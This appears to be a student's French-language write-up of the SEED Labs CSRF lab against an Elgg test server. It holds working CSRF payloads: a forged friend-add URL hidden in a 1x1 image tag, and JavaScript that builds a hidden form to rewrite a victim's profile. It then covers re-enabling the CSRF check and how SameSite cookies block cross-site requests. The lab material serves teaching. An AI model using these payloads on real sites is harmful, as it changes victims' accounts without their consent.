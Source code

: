 # Task 1. Nothing to do

# Task 2. 

Forme de la requête d'un ajout d'ami
```
[GET]

http://www.seed-server.com/action/friends/add?friend=IDOfTheFriendToAdd&__elgg_ts=timestamp&__elgg_token=token&__elgg_ts=timestamp&__elgg_token=token
```

Pas besoin du timestamp et du token d'Alice -> cette sécurité a été désactivée pour ce TP.

```
http://www.seed-server.com/action/friends/add?friend=59
```

A mettre dans adduser.html :
```
<img src="http://www.seed-server.com/action/friends/add?friend=59" alt="image" width="1" height="1" />
```

Puis envoyer un msg à Alice, qui clique dessus

# Task 3.

```
// The following are form entries need to be filled out by attackers.
// The entries are made hidden, so the victim won't be able to see them.
fields += "<input type='hidden' name='name' value='Alice'>";
fields += "<input type='hidden' name='briefdescription' value='Samy is the love of my life'>";
fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";
fields += "<input type='hidden' name='guid' value='56'>";

// Create a <form> element.
var p = document.createElement("form");

// Construct the form
p.action = "http://www.seed-server.com/action/profile/edit";
p.innerHTML = fields;
p.method = "post";

```

	Question 1 : quand on fait une requête type add friend depuis le compte de Boby, on peut voir le guid de Alice
	Question 2 : oui il le peut, car dans les cookies, on retrouve le username de l'utilisateur et son guid

# Task 4.

"Docker ps" -> puis chercher le conteneur qui a pour nom "image_www"

Puis : ```cd /var/www/elgg/vendor/elgg/elgg/engine/classes/Elgg/Security```
Et ```nano Csrf.php```, afin de le modifier comme suit :

Vous trouverez la méthode ``validate`` ainsi :

```
public function validate(Request $request) {
                return; // Added for SEED Labs (disabling the CSRF countermeasure)
```

Et il faut remplacer le premier ``return`` par :

```
public function validate(Request $request) {
```

Puis sauvegarder, quitter nano et quitter le conteneur (quitter nano : ``ctrl + x`` et ``y``, puis quitter le conteneur : ``exit``)

### Task 4.1 : Please point out the secret tokens in the captured HTTP requests. 



### Task 4.2 : Please explain why the attacker cannot send these secret tokens in the CSRF attack; what prevents them from finding out the secret tokens from the web page ?

# Task 5

Avoir ajouté : 10.9.0.5 www.example32.com dans /etc/hosts
Puis se rendre sur www.example32.com :

#### Question 1 :

Lien A : requêtes à example32.com faites depuis example32.com, donc requêtes considérées de confiance par le navigateur, donc tous les cookies s'affichent peu importe le type de requête (GET depuis un lien, GET par un formulaire, POST, ...)

Lien B : requêtes à example32.com faites depuis attacker32.com : 
- pour le GET via le lien et le GET via le formulaire : tout s'affiche sauf cookie-strict  -> le site attacker32.com ne valide pas le critère "avoir le nom de domaine example32.com", autrement dit, attacker32.com n'est pas example32.com, donc le navigateur détecte qu'il s'agit d'un site étranger à example32.com et limite le cookie aux requêtes venant de example32.com. Notamment, grâce au système des cookies SameSite, les cookies peuvent être "statués" lax ou strict, autrement dit qu'il est possible pour un site de dire "ce cookie n'a pas d'importance et peut être utilisé par d'autres sites" ou au contraire de dire "ce cookie peut seulement être utilisé sur mon site" ;
- pour le POST via le formulaire : seul le cookie-normal s'affiche -> Cela en raison du fait que cookie-strict ne permet déjà pas d'être utilisé dans une requête GET depuis attacker32.com, il n'est donc pas non plus permis de l'utiliser dans une requête POST réalisée depuis attacker32.com. Quant à cookie-lax, en réalité, malgré son statut "laxiste", une condition est nécessaire pour pouvoir utiliser un cookie-lax dans sa requête : il faut que ça soit une requête dite "safe", c'est-à-dire des requêtes "GET" ou "HEAD".

Dans tous les cas expliqués ci-dessous, tous les autres cookies s'affichent tout le temps (city, country, traffic_target, ...), ce qui est normal puisqu'ils n'ont aucun statut particulier à l'instar de "cookie-normal" (c'est-à-dire que ce ne sont pas des Cookies SameSite tels que cookie-lax ou cookie-strict).

#### Question 2 :

Si certains cookies SameSite sont obligatoires afin de réaliser une requête vers un serveur, l'attaquant ne pourra pas les récupérer si les bons statuts sont mis sur les cookies. Ainsi, si une requête cross-site est réalisée, le serveur recevra la requête sans les cookies nécessaires, et constatera alors que la requête a été réalisée depuis un site tiers. Alors qu'au contraire, les requêtes réalisées depuis le même site contiendront les cookies nécessaires.
#### Question 3 :